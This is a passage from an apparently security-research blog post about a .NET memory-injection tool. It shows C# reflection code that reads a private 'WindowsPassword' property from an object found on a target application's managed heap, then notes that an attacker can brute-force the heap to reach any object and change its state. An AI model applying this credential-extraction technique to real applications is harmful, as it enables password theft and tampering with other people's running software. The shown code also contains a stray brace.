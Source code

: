 3.) Finding the property of interest... in this case, the WindowsPassword (the 15th location of the object's properties).

{% highlight c# %}
object thisObj = objectFound.targetObject;
PropertyInfo[] properties = thisObj.GetType().GetProperties(BindingFlags.Static | BindingFlags.Public | BindingFlags.Instance | BindingFlags.NonPublic);
object ret = null;
try
{
    System.Threading.Thread call = new System.Threading.Thread
    (
        () =>
        {
            try { ret = properties[14].GetValue(thisObj, null); } }
            catch { return; }
        }
     );
    call.Start();
    System.Threading.Thread.Sleep(10);
    call.Abort();
    Console.WriteLine(ret.ToString());
    System.Windows.Forms.MessageBox.Show(ret.ToString());
}
{% endhighlight %}

It is important to note that I wrapped the calls for getting properties and fields in threads. This is because occasionally the ".toString()" method causes complications and results in an application hang or crash. This practice makes sure that our target won't do either. 

[/resources/grayStorm/autoThink.mp4](/resources/grayStorm/autoThink.mp4 "videoDemo")

Feel free to read the code in the git repo and ask me if you have questions about it! 

---

# Conclusion 

Objects on the .NET Managed Heap can be acquired by an attacker once an application capable of performing the above techniques is introduced into an applications memory space. If an object is instantiated locally in order to find its Method Table, the heap can be brute forced to locate any object declared in the applications runtime! 

Utilizing more reflection, instance methods can be invoked and variables can be changed. The limits of locating runtime objects is up to the user! 

Have fun.
